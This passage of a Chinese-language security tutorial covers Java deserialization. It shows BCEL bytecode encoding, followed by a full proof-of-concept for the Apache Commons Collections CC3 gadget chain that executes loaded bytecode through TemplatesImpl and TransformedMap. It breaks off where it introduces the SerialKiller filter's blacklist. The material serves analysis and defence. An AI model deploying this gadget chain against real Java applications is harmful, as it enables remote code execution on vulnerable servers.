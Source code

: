 通过 BCEL 提供的两个类 `Repository` 和 `Utility` 来利用：用于将一个 Java Class 先转换成原生字节码，当然这里也可以直接使用 javac 命令来编译 java 文件生成字节码；Utility 用于将原生的字节码转换成 BCEL 格式的字节码：

|     |     |     |
| --- | --- | --- |
| ```plain<br> 1<br> 2<br> 3<br> 4<br> 5<br> 6<br> 7<br> 8<br> 9<br>10<br>11<br>``` | ```java<br>import com.sun.org.apache.bcel.internal.Repository;<br>import com.sun.org.apache.bcel.internal.classfile.Utility;<br>import com.sun.org.apache.bcel.internal.classfile.JavaClass;<br><br>public class BCELdemo {<br>    public static void main(String[] args) throws Exception {<br>        JavaClass cls = Repository.lookupClass(evil.Hello.class);<br>        String code = Utility.encode(cls.getBytes(), true);<br>        System.out.println(code);<br>    }<br>}<br>``` |

而 `BCEL ClassLoader` 用于加载这串特殊的 `bytecode`，并可以执行其中的代码：

![https://geekby.oss-cn-beijing.aliyuncs.com/MarkDown/202108310956413.png-water_print](assets/1699411658-686df30136add2d7f79ecf4ae8ea2723.jpg "https://geekby.oss-cn-beijing.aliyuncs.com/MarkDown/202108310956413.png-water_print")

## [](#2-commonscollections-3-gadget-%E5%88%86%E6%9E%90)2 CommonsCollections 3 Gadget 分析

在 CC1 中，利用 TransformedMap 来执行任意方法，上一节中提到过，利用 TemplatesImpl 执行字节码，可以将两者合并，构造出如下 POC：

|     |     |     |
| --- | --- | --- |
| ```plain<br> 1<br> 2<br> 3<br> 4<br> 5<br> 6<br> 7<br> 8<br> 9<br>10<br>11<br>12<br>13<br>14<br>15<br>16<br>17<br>18<br>19<br>20<br>21<br>22<br>23<br>24<br>25<br>26<br>27<br>28<br>29<br>30<br>31<br>32<br>33<br>34<br>35<br>36<br>37<br>38<br>39<br>40<br>41<br>42<br>43<br>44<br>45<br>46<br>``` | ```java<br>package com.geekby.cc3test;<br><br><br>import com.sun.org.apache.xalan.internal.xsltc.trax.TemplatesImpl;<br>import com.sun.org.apache.xalan.internal.xsltc.trax.TransformerFactoryImpl;<br>import org.apache.commons.collections.Transformer;<br>import org.apache.commons.collections.functors.ChainedTransformer;<br>import org.apache.commons.collections.functors.ConstantTransformer;<br>import org.apache.commons.collections.functors.InvokerTransformer;<br>import org.apache.commons.collections.map.TransformedMap;<br><br>import java.lang.reflect.Field;<br>import java.nio.file.Files;<br>import java.nio.file.Paths;<br>import java.util.HashMap;<br>import java.util.Map;<br><br>public class Main {<br>    public static void main(String[] args) throws Exception {<br>        byte[] code = Files.readAllBytes(Paths.get("HelloTemppaltesImpl.class"));<br><br>        TemplatesImpl obj = new TemplatesImpl();<br>        setFieldValue(obj, "_bytecodes", new byte[][] {code});<br>        setFieldValue(obj, "_name", "HelloTemplatesImpl");<br>        setFieldValue(obj, "_tfactory", new TransformerFactoryImpl());<br><br><br>        Transformer[] transformers = new Transformer[] {<br>                new ConstantTransformer(obj),<br>                new InvokerTransformer("newTransformer", null, null)<br>        };<br><br>        Transformer transformerChain = new ChainedTransformer(transformers);<br><br>        Map innerMap = new HashMap();<br>        Map outerMap = TransformedMap.decorate(innerMap, null, transformerChain);<br>        outerMap.put("test", "poc");<br><br>    }<br><br>    public static void setFieldValue(Object obj, String fieldName, Object value) throws Exception {<br>        Field field = obj.getClass().getDeclaredField(fieldName);<br>        field.setAccessible(true);<br>        field.set(obj, value);<br>    }<br>}<br>``` |

但是，在 ysoserial 中的 CC3 中，并没有用到 `InvokerTransformer`。

SerialKiller 是一个 Java 反序列化过滤器，可以通过黑名单与白名单的方式来限制反序列化时允许通过的类。在其发布的第一个版本代码中，可以看到其给出了最初的黑名单：
